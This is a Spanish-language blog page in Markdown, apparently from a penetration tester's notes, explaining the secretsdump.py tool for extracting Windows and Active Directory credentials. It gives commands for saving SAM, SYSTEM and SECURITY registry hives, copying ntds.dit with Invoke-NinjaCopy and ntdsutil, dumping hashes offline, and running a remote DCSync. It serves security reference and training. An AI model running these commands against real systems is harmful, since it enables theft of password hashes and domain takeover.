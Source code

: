```yaml
---
layout: single
title: secretsdump.py
excerpt: "Herramienta para dumpear credenciales de una máquina Windows o un DC."
date: 2021-12-08
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - CLI
  - Windows
  - Active Directory

---
```



# Definición
Herramienta para obtener las credenciales de una máquina o DC de un [Active Directory](/Active-Directory/). Para ello tenemos que proporcionarle distintos registros.

# Uso
Podemos obtener los diferentes hashes del [Almacenamiento de credenciales](/Almacenamiento-de-credenciales/)
## SAM
### Obtención de registros.
La forma más facil de obtenerlos es copiarlos del registro
```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
Aunque también se pueden obtener copiándolos del sistema de archivos. Para esto necesitamos la herrmaienta [Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1)

```powershell
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\SAM" -LocalDestination "x:\sam"
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\SYSTEM" -LocalDestination "x:\system"
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\security" -LocalDestination "x:\security"
```

### Extracción de hashes
Una vez tenemos los registros en nuestr máquina de atacante, utilizamos la herramienta.

```bash
secretsdump.py -sam sam -security security -system system -outputfile credentials.txt LOCAL
```

## NTDS.dit
### LOCAL
#### Obtención de registros
Para esto necesitamos el registro **system** y **ntds.dit**

```powershell
reg save HKLM\system system
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
```

O con la herramienta [Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1), copiándolos desde sus rutas. [Almacenamiento de credenciales](/Almacenamiento-de-credenciales/)

```powershell
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\SYSTEM" -LocalDestination "x:\system"
Invoke-NinjaCopy.ps1 -Path "C:\Windows\ntds\ntds.dit" -LocalDestination "x:\ntds.dit"
```

#### Extracción de hashes
```bash
secretsdump.py -ntds ntds.dit -system system -outputfile credentials.txt LOCAL
```

### Remoto
Necesitamos credenciales válidas con un usuario con capacidad de DCSync para realizar un DCSync Attack.
```bash
secretsdump.py '<DOMAIN>/<USER>:<PASS>@<DOMAIN_CONTROLLER_IP>'
```

Para archivos grandes se recomienda [gosecretsdump](https://github.com/c-sto/gosecretsdump)


---

Escrito el 08-12-2021 a las 02:44 pm por creep33.
